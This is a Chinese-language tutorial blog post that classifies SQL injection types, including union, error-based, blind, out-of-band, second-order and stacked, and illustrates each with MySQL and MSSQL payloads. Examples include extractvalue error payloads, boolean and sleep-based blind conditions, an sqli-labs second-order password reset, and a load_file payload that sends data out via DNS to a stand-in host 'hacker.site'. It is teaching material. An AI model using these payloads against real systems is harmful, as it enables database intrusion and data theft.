










该文章首发于信安之路

https:/mp.weixin.qq.com/s/BQVS7alMSdy3_SQuMymkug

笔者最初学习 SQL 注入时，大家对于 SQL 注入类型的归类让我头脑一片混乱，后来笔者发现其实大家都是根据 sqlmap 上给出的“类型”来划分的。所以，今天在这里，笔者根据自己所学所知来对 SQL 注入进行一个分类，以及讲解一些在注入时十分重要而有用的知识，相信对初学者十分有用。

本文主要使用 MySQL 来进行讲解，且重点是对整个 SQL 注入类型的探讨，以及在这些注入类型中的一些重要细节的讲解，所以不会过多讲解 SQL 语句具体语法语意等。

我们知道，Sqlmap 有个参数可以直接指定注入时所用的类型：

> `--technique=BEISTQU` [ `Boolean-based blind`, `Error-based queries, Inline queries`, `Stacked queries`, `Time-based blind`, `UNION query` ]

但从实际的逻辑思路上来说，这样划分是难以理解的，BEUSTQU 是注入方式，和类型其实没有什么关系，理解这点很重要。

在说 SQLI 时，首先要注意的一个要点就是判断注入位置的参数属性类型。注入位置的参数属性类型有整形和字符型，区分二者的真正意义是，整形参数之后跟的语句不必"打破变量区"，即我们在这里输入字符即可被作为 SQL 语句的一部分了。有的时候 web 开发者仅对用户输入进行了转义，而没注意一些整形参数的处理，在这种情况下就可以直接注入了。

第二个要点就是，注入时所用的 `HTTP Request` 报文类型，是 GET、POST 或其他。

第三个要点就是，注入点在 `HTTPRequest` 报文中的位置所在。如 HTTP 报文的头部字段，包括 Cookie、User-Agent 等，也可能发生 SQL 注入，如开发者记录用户浏览器类型到数据库，这个时候使用的是 User-Agent 头部字段，如果开发者十分大意，可能就发生注入了。

sqlmap 等级 2 会检测 Cookie，等级 3 会测试 User-Agent、Referer，等级 5 会检测 host。

### First order Injection

第一大类型，由于都是翻译的，笔者更喜欢叫它一级注入。一级注入发生在应用与用户交互的地方，web 应用获取到的用户的信息都可能发生注入

#### In-band SQLi

第一大类型中的第一个类型叫“带内 SQL 注入”，就是说攻击者可以直接与受害主机发生交互，面对面一样的。有人比喻成，攻击者与受害服务器之间有一条“信息通道”，通过这条通道攻击者可以获取到想要的信息。

**Union Select SQLi （直接回显）** 

联合查询 SQL 注入，这是最简单的注入类型，通常在通过 `order by` 判断 SQL 语句查询结果的列数后，使用 `union select` 或其他语句来直接查询数据，数据直接回显。

可以根据下面的语句来理解该类型注入：



**Error-basedSQLi**

中文为 “报错型 SQL 注入”，攻击者不能直接从页面得到他们的查询语句的执行结果，但通过一些特殊的方法却可以回显出来，带有一点盲注的味道。报错型注入，一般是通过特殊的数据库函数引发错误信息，而错误的回显信息又把这些查询信息给泄漏出来了。

Mysql 的报错函数有12种之多（只是看过然后收集，并无验证），但实际上可能只需要熟悉两三种即可，对过 WAF 可能会有帮助。下面列出我常用的两种方法：

1、`extractvalue` 函数。

语句跟在 `AND/OR/||/&&` 后面

> or 1 and extractvalue(1, concat(0x3a, (select @@version),0x3a))

还有下面的骚操作，注入点发生在 sql 语句的 limit 整形参数里，可以直接跟在整形参数后面（来自 hackinglab）

> ?start=0 procedure analyse(extractvalue(rand(),concat(1,(select @@version))),1)

2、`rand+count` 函数，与 union 结合，与 `AND/OR/||/&&` 结合都可以，十分灵活。

> union select count(*),concat(0x3a,0x3a,(select @@version),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;

> AND(select 1 from (select count(*),concat(0x3a,0x3a,(select @@version),0x3a,0x3a,floor(rand()*2))a from mysql.user group by a)b)

**Blind SQLi ( Inferential SQLi )**

盲注也叫逻辑推理注入，在这里，攻击者不能得到数据库错误的回显信息，也不能得到查询结果的回显信息，但可以通过其他信息来进行逻辑推理从而获取数据。

```
Boolean-basedSQLi
```

布尔型注入，构造一条布尔语句通过 AND 与前面进行逻辑上的连接，当这条布尔语句为真时，页面应该显示正常，当这条语句为假时，页面显示不正常或是少显示了一些东西。值得注意的是，在实际中，布尔值假时的表现可能为 `HTTP 500`，真时的表现为 `HTTP 200`，以及还有其他各种情况，这也是逻辑推理的真谛。

还有一些细节值得注意，计算机语言的逻辑判断中，通常 AND 的优先级大于 OR，且对布尔值判断时，如果 or 的左边为真时，右边是不会执行的，而对于 AND，如果左边布尔值为假，右边也会跳过而不会执行。

MySQL 有点神奇，似乎对它不影响，但是我们还是要养成好习惯；而在 mssql 与 oracle 这是要注意的，具体如下图：






使用布尔型盲注来获取 MySQL 数据库数据，如查询数据库名的第一个字节的 ASCII 码十进制值是否大于 100，有如下语句：

> and ascii(substr(database(),1,1))>100

或是使用 like 的方法：

> and substr(database(),1,1) like 'm'

> and substr(database(),1,2) like 'my'

还可以使用“突破延迟注入”的方法，因为延迟注入与布尔型注入本质上是一样的，所以这个方法在这里也可以使用，如有兴趣可以查看 FreeBuf 的公开课。

还要说明一个重要的问题，PHP 与 MySQL 都是弱类型语言，在 MySQL 中你可以有 

> select passwd from users where username='xx' or 1

但是在 MSSQL、Oracle 中是

> select passwd from users where username='xx' or 1=1

好好体会思考 MySQL 的“弱”。

```
Time-based SQLi
```

延迟型盲注，原理大致如下，当一个查询结果为真时，则让对端数据库等待一定时间返回，否则立即返回，等待的表现是浏览器未刷新，对端服务器未应答。

MySQL、MSSQL 下，当查询结果为真时利用时间函数来进行休眠，而 Oracle 没有时间函数，所以 Oracle 下会通过查询大表、大数据来达到同样的目的，MySQL 下有：

> and if(ascii(substr(database(),1,1))>100,sleep(10),null)

逻辑推理注入是十分花费时间的，不得不靠工具或是小脚本来完成。Sqlmap 中，可以通过 --`technique t `，直接指定基于时间的盲注来跑。

#### Out-of-band SQLi

带外数据（`OOB`）的这种攻击方式，在各种盲攻击中都有此概念，如在 XXE 盲注。笔者对 `OOB` 型 SQL 注入的理解是，在 SQL 注入攻击中，攻击者的 Payload 代码成功执行了，但由于各种因素所致，结果无法通过 `HTTP Response` 来答复攻击者的 `HTTP Request`，攻击者也就无法从这种“信道”获取 payload 产生的数据。而 `OOB` 中，攻击者通过构造特殊的 Payload，让受害主机向指定主机发送 HTTP 请求或 DNS 查询，而这些请求报文中携带了查询结果的数据。

如 MySQL 下有：

> select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));

具体 DNS 查询报文如下图：



### Second order Injection

第二大类型就是二级注入了。通常网站开发者可能会十分注意与用户发生交互的地方，自然这些地方就很少会有 SQL 注入漏洞了。而开发者对从数据库查询出来的信息可能十分信任，而这就是攻击者的机会所在——即便从数据库查询出来的数据也不是可靠的。

在 `sqli-labs` 的 24 关中，我们在在注册一个用户名为 `'admin' or '1'='1` 之后，使用该用户登录，并修改该用户的密码为  `123`，可以发现，用户 `admin` 的密码被修改为 `123`







在重置密码时，使用的 SQL 语句是：

> UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'

由于变量 `$username` 的值时从数据库中查询出来，开发者并没有对其进行过滤处理，所以产生了 SQL 注入。我们在修改密码时实际上修改的时 `admin` 帐号的密码。

### 补充

**Stacked queries**

堆叠查询是指在一次数据库语句查询中，可以同时执行多条语句。如下面例子，我们在一次 MSSQL 数据库注入中同时执行了两条语句：

> select username from usertable where passwd='123';waitfor delay '0:0:5' --%20

而堆叠查询本质上还是使用的其他注入方法，只不过堆叠查询的结果无法直接回显，通常在堆叠查询中我们可以尝试使用延迟注入、`OOB` 等方法来获取数据。

关于堆叠查询的发生前提情况具体可以参考下图：



通过在堆叠查询中使用存储过程还可以绕过 WAF。这篇文章就是很好的例子：

> http:/www.freebuf.com/column/145771.html

**Inline Queries**

Sqlmap 作者给这种注入起了个这个名字或是说使用了这个名字，中文翻译过来刚刚好和内联查询（Inner Join） 冲突了，笔者也是懵逼了很久。后来经过一番查阅，才知道这个 `Inline Queries` 指的是内联视图（Inline View）。内联视图能够创建临时表，在处理某些查询情况时十分有用。

假如有 `User_Address` 表，里面有用户邮编 `ZIP_CODE`，而另外一张表 `User_Score`，则记录的每个用户的分数，且这两张表有相同的列 `“User_ID”`。

如果我们想找出得分超过 200 的用户的邮编时，利用内联视图可以一句话就搞定，具体如下：



可以参考 `SQL Inline View`

> https:/www.1keydata.com/sql/inline-view.html

进行学习。

在 Sqlmap 的 `boundaries.xml` 文档中的 `clause` 标签说明中，作者给出了他们认为 SQL 语句存在注入点的 10 种情况，如下：



而 `Inline Queries SQLI` 有 `1、2、3、8` 共四种情况，笔者尝试使用 Sqlmap 来对 MySQL 的 `Inline Queries` 语句进行注入，发现 Sqlmap 识别出的注入方式并不是 `Inline Queries`，而其源码中确实有该种注入的 Payload，笔者也未曾遇到过该种注入，对此也只能表示疑惑了。

### 总结

这篇文章的大体轮廓在笔者学完 SQL 注入一个星期后就开始写了，当时的笔者十分恼火，为什么找不到一篇能够帮笔者理解 SQL 注入类型的文章，所以决定自己参悟并写一篇。又经过一番学习一番修改，这篇文章就出炉了，起初想加入一些“高级点”的东西，但是和文章标题不符合，就算了，有机会再补上吧。希望本文对大家有所帮助，谢谢！